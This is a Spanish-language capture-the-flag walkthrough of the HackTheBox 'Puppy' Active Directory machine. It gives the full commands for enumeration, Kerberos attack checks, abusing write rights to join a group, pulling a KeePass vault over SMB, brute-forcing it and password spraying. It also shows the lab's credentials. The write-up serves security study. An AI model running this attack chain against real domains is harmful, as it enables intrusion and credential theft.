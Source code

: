levi.james:KingofAkron2025!
## Reconocimiento

Empezaremos realizando un reconocimiento con la herramienta de [[RUSTSCAN]] que es un [[NMAP]] con esteroides:
`rustscan -a $IP --ulimit 1000 -r 1-65535 -- -A -sCV -o portScan`

```ad-info
rustscan tambien usa herramintas de nmap para una mejor respuesta sobre el reconocimiento de puertos
```

Los puertos encontrados mas relevantes son:
```js
53 - DNS
88 - kerberos
111 - rpcbind
389 - LDAP
445 - SMB
5985 - WinRm
```

Usaremos [[CRACKMAPEXEC-NETEXEC]] para enumerar información básica del servicio *LDAP*.
`netexec ldap $IP 2>/dev/null` 

```
LDAP $IP 389 DC [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
```

Nos muestra: el protocolo `LDAP` la `IP` y el puerto `389`, a continuación nos muestra el rol del host `DC` que es *Domain Controller*, identificación del sistema operativo , nombre del host y dominio completo `FQDN`


Usaremos la herramienta de `https://github.com/Gzzcoo/iRealm` para añadir la maquina al `/etc/hosts` y el nombre de dominio y FQDN a `/etc/krb5.conf`
`iRealm --force $IP PUPPY.HTB DC`


Verificamos las credenciales que nos han aportado son validas con [[CRACKMAPEXEC-NETEXEC]]
`netexec ldap $IP -u 'levi.james' -p 'KingofAkron2025!'`

Nos mostrara que las credenciales son validas


Buscamos recursos compartidos con [[CRACKMAPEXEC-NETEXEC]]
`nxc smb $IP -u 'levi.james' -p 'KingofAkron2025!' --shares  -M spider_plus`

Nos genera un archivo `.JSON` en `/root/.nxc/modules/nxc_spider_plus/10.10.11.70.json`

#### Enumeración Usuarios

Enumerar usuarios del dominio con [[CRACKMAPEXEC-NETEXEC]] 
`nxc ldap $IP -u 'levi.james' -p 'KingofAkron2025!' --users`
```     
Administrator    
Guest            
krbtgt           
levi.james       
ant.edwards      
adam.silver      
jamie.williams   
steph.cooper     
steph.cooper_adm 
```

Enumeración de usuarios y verifica que exista en el dominio [[KERBRUTE]]
`kerbrute userenum --dc $IP -d puppy.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames`

 O también podemos usar [[CRACKMAPEXEC-NETEXEC]] para enumerar usuarios
 `nxc ldap $IP -u users.txt -p '' -k`
  El error `KDC_ERR_PREAUTH_FAILED` la contraseña no funciona pero existe el usuario
  El error `KDC_ERR_CLIENT_REVOKED` existe el usuario


### AS-REP ROASTING (Sin creds)
`impacket-GetNPUsers -no-pass -usersfile users.txt puppy.htb/`
No es susceptible al ataque. 

### KERBEROASTING (Con creds validas)
Enumeración de usuario que tenga serviceprincipalname (SPN) 
`impacket-GetUserSPNs 'puppy.htb/levi.james:KingofAkron2025!' -dc-ip $IP`
No es susceptible al ataque. 


Recopilar información del LDAP y se guarda en un `.zip` que este le usaremos para subir al blodhound
Subimos el archivo a bloodhound

Añadimos usuario a grupo DEVELOPERS por que tenemos generic write
`bloodyAD --host $IP -d puppy.htb -u 'levi.james' -p 'KingofAkron2025!' add groupMember 'DEVELOPERS' 'levi.james'`

Como nos hemos vovemos a acceder al smb y vemos que tenmos acceso a DEV
`nxc smb $IP -u 'levi.james' -p 'KingofAkron2025!' --shares `

Nos encontramos que en el directorio hay un archivo con extensión de keepass `kdbx` 
`recovery.kdbx`

Nos descargamos el archivo 
`nxc smb $IP -u 'levi.james' -p 'KingofAkron2025!' --share 'DEV' --get-file 'recovery.kdbx' 'recovery.kdbx'`

Lo añadimos a Keepassxc el archivo y nos pide una passwd
como no la tenemos la hacemos fuerza bruta

Usaremos `./keepas4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt`
La contraseña que nos devuelve es `liverpool`

Dentro del archivo encontramos contraseñas, que las añadimos a un archivo y lo guardamos
Y haremos fuerza bruta a los primeros usuarios encontrados
`nxc ldap $IP -u users.txt -p pass.txt --continu-on-success | grep '[+]'`
Nos encuentra el siguiente user
`[+] PUPPY.HTB\ant.edwards:Antman2025!`




